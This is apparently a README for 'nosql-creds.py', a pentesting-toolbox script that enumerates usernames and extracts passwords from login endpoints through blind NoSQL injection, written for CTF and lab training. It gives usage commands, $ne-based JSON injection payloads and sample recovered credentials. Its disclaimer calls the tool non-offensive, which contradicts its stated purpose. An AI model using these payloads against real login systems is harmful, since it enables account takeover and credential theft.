

# 📘 **nosql-creds.py — Blind NoSQL Credential Extraction Demonstrator**

## 1. Introduction

`nosql-creds.py` is a Toolbox module designed to demonstrate how **blind NoSQL injection** can be used to enumerate usernames and extract passwords from vulnerable endpoints in controlled environments.

It performs:

- exclusion‑based username enumeration  
- blind password extraction  
- realistic probing using randomised user‑agents  
- timing jitter to simulate stealthy attacker behaviour  

This tool is ideal for:

- Windows PrivEsc Arena  
- THM NoSQL exploitation rooms  
- attacker‑workflow demonstrations  
- defensive detection and forensic reasoning  
- teaching how NoSQL injection leaks structured data  

It is **non‑malicious**, **non‑destructive**, and intended for **educational use only**.

---

## 2. What This Tool Demonstrates

`nosql-creds.py` models the **attacker enumeration → exploitation → credential extraction workflow**, showing:

- how exclusion‑based payloads reveal hidden usernames  
- how blind NoSQL injection leaks passwords incrementally  
- how attackers simulate stealth using jitter + user‑agent rotation  
- how defenders can recognise probing patterns  

It reinforces both **attacker literacy** and **defender intuition**.

---

## 3. High‑Level Workflow



---

## 4. Usage

### Full enumeration

```
nosql-creds.py --url http://target/login
```

### Extract password for a specific user

```
nosql-creds.py --url http://target/login --username admin
```

### Dry‑run (simulate without sending requests)

```
nosql-creds.py --url http://target/login --dry-run
```

### Verbose mode

```
nosql-creds.py --url http://target/login --verbose
```

### Logging + Hashmap traceability

```
nosql-creds.py --url http://target/login --log --hashmap
```

---

## 5. Output Files

When optional flags are used:

| File | Purpose |
|------|---------|
| `/var/log/nosql-creds.py.log` | Execution log (when `--log` is used) |
| `.hashmap/nosql-creds.py.hash` | SHA‑256 hash of the script (when `--hashmap` is used) |
| `.hashmap/nosql-creds.py.timestamp` | Timestamp of execution (when `--hashmap` is used) |

These reinforce **traceability**, **repeatability**, and **forensic analysis** — consistent across all Toolbox Python tools.

---

## 6. Blind NoSQL Username Enumeration

The tool uses exclusion‑based payloads:

```
{
  "username": { "$ne": ["known_users"] },
  "password": "random"
}
```

If the server responds with:

```
Invalid password: <username>
```

Then the username is discovered.

Example output:

```
[+] Found username: admin
```

This demonstrates how **negative‑match queries** can leak structured data.

---

## 7. Blind NoSQL Password Extraction

Passwords are extracted using:

```
{
  "username": "admin",
  "password": { "$ne": ["known_passwords"] }
}
```

Each discovered password is printed:

```
[+] Found password for admin: pass123
```

This models how attackers incrementally enumerate secrets using blind‑injection logic.

---

## 8. Example Output

```
[+] Found username: admin
[+] Found password for admin: hunter2

Discovered Credentials:
- admin: hunter2
```

---

## 9. Educational Value

`nosql-creds.py` is ideal for:

- demonstrating blind NoSQL injection  
- teaching exclusion‑based enumeration  
- showing how structured data leaks through error‑based responses  
- modelling attacker workflows for defender training  
- THM rooms involving NoSQL exploitation  
- internal awareness training  

It is **not** intended for real‑world offensive use.

---

## 10. Limitations

- Assumes the target returns `"Invalid password"` on failed login  
- Only supports JSON POST endpoints  
- No CAPTCHA, rate‑limit, or lockout handling  
- Blind‑injection logic is simplified for teaching  
- Intended for **controlled environments** only  

These limitations are intentional — the tool focuses on **education**, not exploitation.

---

## 11. Summary

`nosql-creds.py` is a structured, educational NoSQL injection demonstrator that:

- performs blind username enumeration  
- extracts passwords using exclusion‑based payloads  
- models attacker workflows  
- reinforces defensive detection and forensic reasoning  
- integrates cleanly with the Toolbox architecture  

It is transparent, predictable, and ideal for PrivEsc Arena and THM‑style learning.

---

## 📢 Disclaimer

This tool performs **non‑destructive, educational demonstrations only**.  
It does **not** bypass security controls or perform offensive actions.  
Use responsibly and only in environments where you have explicit permission.

---

## 🤖 AI & Ethics Disclosure

This documentation was co‑authored with AI assistance.  
For details on responsible use, transparency, and authorship, see the **AI & Ethics** section in the Toolbox README.

🔙 Return to [Toolbox](https://github.com/Mark-a-Hamilton/Toolbox)

---

